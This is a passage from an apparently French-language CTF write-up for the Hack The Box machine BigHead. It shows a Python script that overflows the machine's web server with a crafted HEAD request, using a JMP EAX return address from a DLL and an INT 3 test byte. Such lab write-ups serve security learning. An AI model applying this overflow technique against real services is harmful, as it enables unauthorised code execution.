 Le dernier point à prendre en considération c'est qu'on aura potentiellement à rajouter certains octets pour rendre notre requête plus conforme au protocole HTTP (on aura de toute évidence besoin de spécifier l'entête *Host* ce qui implique HTTP en version 1.1).  

Writing exploit for fun and uselessness
---------------------------------------

Du coup il nous suffit d'utiliser comme adresse de retour un *jmp eax* trouvé dans la DLL. Pour tester on mettra au début de notre requête une instruction [INT 3](https://en.wikipedia.org/wiki/INT_%28x86_instruction%29#INT_3) (opcode CC) et on adaptera le code Python ainsi :  

```python
import socket
from binascii import hexlify
import struct

TARGET = '127.0.0.1'
PORT = 8008
jmp_eax = 0x625012F2  # JMP EAX from bHeadSvr.dll

sock = socket.socket()
sock.connect((TARGET, PORT))

buff = "HEAD /"
buff += "CC"
buff += "A" * 70
buff += hexlify(struct.pack("I", jmp_eax)).decode()

sock.send(buff.encode())
```

![BigHead CTF jmp eax to int 3](https://raw.githubusercontent.com/devl00p/blog/master/images/htb/bighead_jmp_eax_cc.png)
